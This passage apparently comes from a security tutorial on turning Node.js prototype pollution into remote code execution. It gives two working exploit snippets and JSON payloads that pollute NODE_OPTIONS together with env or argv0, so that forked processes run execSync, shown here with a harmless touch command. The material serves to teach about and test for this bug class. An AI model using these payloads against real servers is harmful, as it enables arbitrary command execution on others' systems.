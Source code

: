<br>

### Poisoning `constructor.prototype`

```javascript
const { execSync, fork } = require("child_process");

// Manual Pollution
b = {};
b.constructor.prototype.env = {
  EVIL: "console.log(require('child_process').execSync('touch /tmp/pp2rce2').toString())//",
};
b.constructor.prototype.NODE_OPTIONS = "--require /proc/self/environ";

proc = fork("a_file.js");
// This should create the file /tmp/pp2rec2

// Abusing the vulnerable code
USERINPUT = JSON.parse(
  '{"constructor": {"prototype": {"NODE_OPTIONS": "--require /proc/self/environ", "env": { "EVIL":"console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce2\\").toString())//"}}}}'
);

clone(USERINPUT);

var proc = fork("a_file.js");
// This should create the file /tmp/pp2rec2
```

## PP2RCE via env vars + cmdline

A similar payload to the previous one with some changes was proposed in [**this writeup**](https://blog.sonarsource.com/blitzjs-prototype-pollution/)**.** The main differences are:

- Instead of storing the nodejs **payload** inside the file `/proc/self/environ`, it stores it i**nside argv0** of **`/proc/self/cmdline`**.
- Then, instead of requiring via **`NODE_OPTIONS`** the file `/proc/self/environ`, it **requires `/proc/self/cmdline`**.

```javascript
const { execSync, fork } = require("child_process");

// Manual Pollution
b = {};
b.__proto__.argv0 = "console.log(require('child_process').execSync('touch /tmp/pp2rce2').toString())//";
b.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline";

// Trigger gadget
var proc = fork("./a_file.js");
// This should create the file /tmp/pp2rec2

// Abusing the vulnerable code
USERINPUT = JSON.parse(
  '{"__proto__": {"NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce2\\").toString())//"}}'
);

clone(USERINPUT);

var proc = fork("a_file.js");
// This should create the file /tmp/pp2rec
```
